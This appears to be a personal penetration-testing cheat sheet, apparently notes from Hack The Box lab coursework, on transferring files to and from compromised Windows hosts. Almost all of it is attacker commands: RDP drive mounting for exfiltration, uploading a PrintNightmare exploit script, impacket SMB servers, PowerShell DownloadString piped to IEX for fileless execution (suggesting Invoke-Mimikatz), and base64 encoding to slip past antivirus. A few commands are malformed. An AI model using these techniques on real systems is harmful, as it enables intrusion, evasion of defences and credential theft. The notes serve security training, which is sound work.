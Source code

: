 #### with RDP
- using xfreerdp clipboard to upload files to victim
- using xfreerdp to mount a shared folder so you can exfiltrate
 ```
xfreerdp /v:10.129.43.33 /u:htb-student /p:"HTB_@cademy_stdnt!" /drive:share,/home/demise/tools/win
 ```

#### with WINRM
- using evil-winrm to upload files to victim while in session1
```
*Evil-WinRM* PS C:\programdata> upload /opt/i/CVE-2021-1675.ps1
```
4.  **Download with Custom User-Agent**

    ```powershell
    Invoke-WebRequest http://nc.exe -UserAgent [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome -OutFile "nc.exe"
    ```

---
## SMB Downloads


`start an smb server (attacker)`
```shell-session
sudo impacket-smbserver share -smb2support $(pwd) -u realm -password fckswe
```

authenticate to smb server 
```
PS C:\Users\Public\Music> net use \\10.10.16.11\share /user:realm fckswe  
The command completed successfully.  
```

`copy files from attacker server`
```cmd-session
C:\htb> copy \\192.168.220.133\share\nc.exe
```

New versions of Windows block unauthenticated guest access so  that a windows host cant anonymously access any sort of share,  create a secure smb channel on your attacking rig:

`Start an SMB Server with creds #attacker`
```shell-session
sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test
```

`accesss smb share #victim (mounting maybe)`
```cmd-session
C:\htb> net use n: \\192.168.220.133\share /user:test test
```

---
### download using powershell
`webclient`
```powershell-session
PS C:\htb> # Example: (New-Object Net.WebClient).DownloadFile('http://10.10.16.19:80/backup.exe','backup.exe')

PS C:\htb> # Example: (New-Object Net.WebClient).DownloadFileAsync('<Target File URL>','<Output File Name>')
```

`using invoke-webRequest`
```
Invoke-WebRequest -Uri http://10.10.16.5:8080/mag.ps1 -OutFile mag.ps1
```

confirm file exists after download:
`finding files via type *.ps1 `
```
Get-ChildItem -Recurse | Where-Object { $_.Name -like '*.ps1' }
```

 `IEX (file-less execution after download) or Invoke-Expression with DownloadString`
```
IEX (New-Object Net.WebClient).DownloadString('http://10.10.16.19/backup.exe') 
```

`pipe downloadString to IEX #2`  try `invoke-mimikatz.ps1 from empire`
```
(New-ObjectNet.WebClient).DownloadString('link') | IEX
```

`Invoke web request:`
You can use the aliases `iwr`, `curl`, and `wget` instead of the `Invoke-WebRequest` full name.
```powershell-session
PS C:\htb> Invoke-WebRequest <link> -OutFile PowerView.ps1 -UseBasicParsing
```

---
## Clipboard transfer

`integriti checks`
```shell-session
md5sum id_rsa
```


`base64 encoding to bypass simple AV/IPS rules`
```shell-session
attacker$ cat <clipboardcontent> |base64 -w 0;echo
```

`Decode File & store somewhere`
```powershell-session

[IO.File]::WriteAllBytes("#location-to-write",[Convert]::FromBase64String("#base64-string"))
```

`confirm md5sum:`
```powershell-session
Get-FileHash <PATH> -Algorithm md5
```
**Note:** While this method is convenient, it's not always possible to use. Windows Command Line utility `(cmd.exe)` has a maximum string length of 8,191 characters. Also, a web shell may error if you attempt to send extremely large strings.

---
## download via FTP 
-----------------------
```shell-session
sudo pip3 install pyftpdlib
```

`start ftp server`
```shell-session
sudo python3 -m pyftpdlib --port 21
```

 `PowerShell, download from an ftp server`
```powershell-session
PS C:\htb> (New-Object Net.WebClient).DownloadFile('ftp://<ip>/file.txt', '<locationtowrite')
```

`creating command file for ftp client #victim`
```cmd-session
C:\htb> echo open 192.168.49.128 > ftpcommand.txt
C:\htb> echo USER anonymous >> ftpcommand.txt
C:\htb> echo binary >> ftpcommand.txt
C:\htb> echo GET file.txt >> ftpcommand.txt
C:\htb> echo bye >> ftpcommand.txt
C:\htb> ftp -v -n -s:ftpcommand.txt
ftp> open 192.168.49.128
Log in with USER and PASS first.
ftp> USER anonymous

ftp> GET file.txt
ftp> bye

C:\htb>more file.txt
This is a test file
```


### more techniques:`
```
more transfer methods from harmjoy:
https://gist.github.com/HarmJ0y/bb48307ffa663256e239
```